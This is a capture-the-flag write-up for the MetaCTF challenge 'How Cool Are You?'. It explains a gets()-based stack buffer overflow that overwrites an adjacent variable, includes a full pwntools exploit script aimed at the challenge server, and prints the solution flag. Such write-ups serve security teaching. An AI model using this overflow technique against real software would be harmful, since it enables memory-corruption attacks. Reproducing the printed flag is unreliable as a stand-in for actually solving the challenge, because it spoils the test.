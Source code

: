 # How Cool Are You? - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/HowCoolAreYou.gif)

---

## Challenge Summary

This program calculates a random "coolness" score for the user and asks for their name. It uses the unsafe `gets()` function to read the username, which allows a buffer overflow vulnerability.

To get the flag, you need to overwrite the `your_estimated_coolness` variable’s value with the magic number `1500000001`. This will trigger the special condition that prints the flag stored in the environment variable `FLAG`.

The main exploit vector is a classic **stack-based buffer overflow** via the `gets()` call, allowing you to overwrite adjacent variables on the stack.

## Binary Information

```bash
$ file chal
```

![Alt text](img/2.png)

```bash
$ pwn checksec chal
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Using CLion, we can easily inspect the program logic and identify the vulnerability:

### Key Observations:

- **User input is read using `gets(your_name);`**, which is an unsafe function that **does not perform bounds checking**. This allows overflowing the 64-byte `your_name` buffer.

  ![Alt text](img/4.png)

- The next variable on the stack after `your_name` is `your_estimated_coolness` — an `int` that determines if the flag is printed.

- The **coolness value is assigned before the `gets()` call**, which means a crafted input can overwrite it with a specific value: `1500000001`.

- The program checks for an **exact match** with that value to reveal the flag via `getenv("FLAG")`.

  ![Alt text](img/5.png)

---

## Exploit Strategy

This challenge relies on a classic **stack-based buffer overflow**. By overflowing a local buffer (`your_name`), we can overwrite an adjacent variable (`your_estimated_coolness`) on the stack.

To solve the challenge, we supply carefully crafted input that:

- Fills the buffer completely.
- Overwrites the coolness value with the exact number required to pass the check (`1500000001`).

No need for shellcode or control flow hijacking—just simple memory corruption to meet a condition.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chal --host kubenode.mctf.io --port 30005
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30005)

env_vars = {
        "FLAG":"MetaCTF{dummy_flag}"
}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env=env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 76
payload = flat (
        b'A' * offset,
        p64(0x59682f01)
)
io.sendline(payload)
io.recvuntil(b"Oh, right, here's the flag: ")
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program uses the unsafe [`gets()`](w) function to read user input into a fixed-size buffer (`your_name[64]`). Since `gets()` performs **no bounds checking**, an attacker can overflow the buffer and overwrite adjacent stack variables.

The adjacent variable, `your_estimated_coolness`, controls access to the flag. By overflowing `your_name` and setting this variable to `1500000001`, the attacker can bypass the check and print the flag—making this a classic **stack buffer overflow** vulnerability.

---

## Flag

```
MetaCTF{oh_w0w_y0ur3_pr3tty_c00l_aft3r_a11}
```
